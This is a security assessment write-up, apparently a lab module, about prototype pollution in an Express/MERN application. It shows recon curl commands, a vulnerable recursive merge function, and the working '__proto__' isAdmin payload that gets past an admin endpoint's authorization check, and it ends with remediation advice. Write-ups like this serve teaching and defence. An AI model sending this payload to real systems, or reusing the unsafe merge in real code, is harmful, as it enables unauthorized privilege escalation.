






# Module 01: MERN Stack Security Assessment — Prototype Pollution

## Overview

This assessment targeted a MERN-style web application exposed on port `3000`. Initial reconnaissance identified an Express-based backend using cookie-backed sessions. Testing of the profile update functionality revealed an unsafe recursive merge routine that accepted attacker-controlled JSON keys without filtering prototype-sensitive properties. By abusing this behavior with a `__proto__` payload, it was possible to inject `isAdmin: true` into the prototype chain and access a restricted administrative configuration endpoint using the same low-privilege session.

---

## Target Identification

Initial fingerprinting was performed to confirm the application stack and session behavior.

### HTTP Fingerprinting

A header request to the application root returned an `X-Powered-By: Express` header along with a `connect.sid` session cookie, strongly indicating an Express application using cookie-based session handling.

```bash
curl -I http://target.internal:3000/
```

### Route Behavior

A request to a non-existent path returned the default Express route response:

```bash
curl http://target.internal:3000/nonexistent_test_path
```

```html
<pre>Cannot GET /nonexistent_test_path</pre>
```

Together, these responses confirmed that the target was an Express-backed application with standard route handling and session middleware enabled.

---

## Vulnerability Summary

The application exposed a profile update endpoint at `/api/user/update` which accepted arbitrary JSON input and merged it into the active user object using a recursive merge function.

A representative version of the vulnerable merge logic is shown below:

```javascript
function merge(target, source) {
  for (let key in source) {
    if (typeof source[key] === 'object' && source[key] !== null) {
      if (!target[key]) target[key] = {};
      merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}
```

The issue was that user-controlled keys were merged without filtering dangerous properties such as `__proto__`. In JavaScript, writing to `__proto__` can affect `Object.prototype`, allowing attacker-controlled properties to be inherited by other objects in the application.

In this case, the application’s authorization logic relied on an `isAdmin` property during access checks to a restricted administrative endpoint. Because the merge routine allowed prototype pollution, an attacker could introduce `isAdmin: true` into the prototype chain and influence the authorization decision for the current session.

---

## Exploitation Workflow

### 1. Baseline Authorization Check

A new session was created and used to query the restricted administrative endpoint:

```bash
curl -c cookies.txt http://target.internal:3000/
curl -b cookies.txt http://target.internal:3000/api/admin/system-config
```

The server correctly rejected the request:

```json
{"error":"Not authorized"}
```

This confirmed that the endpoint was protected prior to exploitation.

### 2. Prototype Pollution Injection

A crafted JSON payload was then submitted to the profile update endpoint:

```bash
curl -b cookies.txt -X POST http://target.internal:3000/api/user/update \
  -H "Content-Type: application/json" \
  -d '{"__proto__":{"isAdmin":true}}'
```

The application accepted the update and returned:

```json
{"status":"updated"}
```

This indicated that the merge routine processed the malicious `__proto__` key without validation.

### 3. Access to Restricted Administrative Data

Using the same session, the administrative endpoint was queried again:

```bash
curl -b cookies.txt http://target.internal:3000/api/admin/system-config
```

After the pollution step, the request succeeded and returned restricted administrative data. This demonstrated that the authorization check resolved `isAdmin` through the polluted prototype chain rather than from a trusted property explicitly assigned to the current user.

---

## Impact

This issue resulted in an authorization bypass through prototype pollution. A low-privilege session was able to gain access to a restricted administrative endpoint without legitimate privilege assignment. In a real application, this class of vulnerability could expose internal configuration data, administrative functionality, or other privileged operations that rely on inherited object properties during authorization checks.

---

## Evidence

### 1. Express Header Fingerprinting



### 2. Non-Existent Route Response



### 3. Session Initialization



### 4. Unauthorized Administrative Access Check



### 5. Prototype Pollution Injection



### 6. Access to Sensitive Configuration After Pollution



---

## Remediation

* Reject prototype-sensitive keys such as `__proto__`, `constructor`, and `prototype` from user-controlled input.
* Avoid hand-written recursive merge logic for security-sensitive object updates.
* Restrict update payloads to an allowlist of expected fields using strict schema validation.
* Ensure authorization checks rely only on trusted, explicitly assigned privilege values rather than inherited object properties.
* Consider using safe object construction patterns such as `Object.create(null)` where prototype inheritance is unnecessary.
